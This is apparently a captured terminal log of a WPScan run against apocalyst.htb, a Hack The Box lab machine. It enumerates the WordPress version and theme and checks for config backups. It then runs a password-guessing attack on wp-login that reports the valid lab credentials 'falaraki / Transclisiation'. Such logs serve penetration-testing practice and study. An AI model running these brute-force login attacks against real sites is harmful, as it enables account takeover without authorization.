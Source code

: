 ```
 |  - http://apocalyst.htb/?feed=rss2, <generator>https://Wordpress.org/?v=4.8</generator>
 |  - http://apocalyst.htb/?feed=comments-rss2, <generator>https://Wordpress.org/?v=4.8</generator>

[+] Wordpress theme in use: twentyseventeen
 | Location: http://apocalyst.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://apocalyst.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.7
 | Style URL: http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://Wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the Wordpress team
 | Author URI: https://Wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <========================================================================================================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation                                                                                                                                                 
Trying falaraki / total Time: 00:01:02 <===========================================                                                                 > (335 / 821) 40.80%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Aug  3 03:44:08 2024
[+] Requests Done: 508
[+] Cached Requests: 5
[+] Data Sent: 156.176 KB
[+] Data Received: 1.607 MB
[+] Memory used: 258.668 MB
[+] Elapsed time: 00:01:55 
```
